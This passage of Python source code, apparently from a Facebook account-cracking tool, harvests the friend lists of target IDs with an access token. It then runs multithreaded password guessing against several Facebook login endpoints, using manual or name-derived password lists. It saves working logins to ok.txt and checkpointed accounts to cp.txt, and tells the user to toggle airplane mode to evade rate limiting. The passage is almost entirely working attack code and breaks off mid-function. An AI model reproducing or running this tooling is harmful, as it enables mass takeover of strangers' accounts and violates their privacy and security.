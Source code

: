 def massal():
	global token
	try:
		token = open("login.txt", "r").read()
	except IOError:
		print ("\n %s[%s!%s] Token invalid"%(p,m,p));os.system("rm -rf login.txt");time.sleep(1);login()
	try:
		tanya_total = int(raw_input("\n%s [%s•%s] How many ids you want?: "%(p,k,p)))
	except:tanya_total=1
	for t in range(tanya_total):
		t +=1
		idt=raw_input("\n%s [%s•%s] Enter target id\n [%s•%s] ID target%s: "%(p,k,p,k,p,t))
		try:
			for i in requests.get("https://graph.facebook.com/%s/friends?access_token=%s"%(idt, token)).json()["data"]:
				idne = i["id"]
				jenenge = i["name"]
				id.append(idne+"<=>"+jenenge)
		except KeyError:
			exit('\n%s [%s!%s] Private id Or Token Expire'%(p,m,p))
	if (len(id)) == 0:
		exit('\n%s [%s!%s] Hasil ID Null'%(p,m,p))
	else:
	    #print("%s [%s•%s] Nama     : %s"%(p,k,p,jenenge))
		print("%s [%s•%s] Total id :%s %s"%(p,k,p,h,(len(id))))

def cruot():
	print("\n         \033[41m\033[1;37m[ Method Crack ]\x1b[0m")
	print("\n%s [%s1%s] Crack with Api Facebook %sPro %s+ %sTTL"%(p,k,p,b,p,k))
	print("%s [%s2%s] Crack with Mbasic %sPro %s+ %sTTL"%(p,k,p,b,p,k))
	print("%s [%s3%s] Crack with Touch Facebook + %sTTL"%(p,k,p,k))
	print("%s [%s4%s] Crack with X.Facebook + %sTTL"%(p,k,p,k))
	print("%s [%s5%s] Crack with D.facebook + %sTTL"%(p,k,p,k))
	print("%s [%s6%s] Crack with Free.Facebook + %sTTL\n"%(p,k,p,k))
	profers = raw_input(" \033[4;33mChoose%s:\x1b[0m\n %s➤%s➤%s➤%s➤ %s"%(p,m,k,h,b,p))
	if profers in [""]:
		exit("\n%s [%s!%s] Unknown!!"%(p,m,p))
		#cruot()
	elif profers in ["1","01"]:
		bukanmaen = raw_input("\n%s [%s•%s] Crack With Pass Auto/Manual [a/m]\n %s "%(p,k,p,panah))
		if bukanmaen in ["m","M"]:
			with ThreadPoolExecutor(max_workers=30) as coeg:
				asu = raw_input("%s [%s•%s] Example password: pakistan, 786786, khan1122\n %s[%s•%s] Pass list: "%(p,k,p,p,k,p)).split(",")
				if len(asu) =="":
					exit("%s [%s!%s] Unknown!"%(p,m,p))
				print("\n%s [%s•%s] Result OK saved to : ok.txt\n %s[%s•%s] Result CP saved to : cp.txt"%(p,k,p,p,k,p))
				print("%s [%s•%s] turn on mode airplane (5 sec)"%(p,k,p))
				print("%s [%s•%s] reset APN connections (5 sec)\n"%(p,k,p))
				for user in id:
					uid, name = user.split("<=>")
					coeg.submit(api, uid, asu)
			hasil()
		elif bukanmaen in ["a","A"]:
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [%s•%s] Result OK saved to : ok.txt\n %s[%s•%s] Result CP saved to : cp.txt"%(p,k,p,p,k,p))
				print("%s [%s•%s] turn on mode airplane (5 sec)"%(p,k,p))
				print("%s [%s•%s] reset APN connections (5 sec)\n"%(p,k,p))
				for user in id:
					uid, name = user.split("<=>")
					frist=name.split(" ")
					if len(frist)>=6: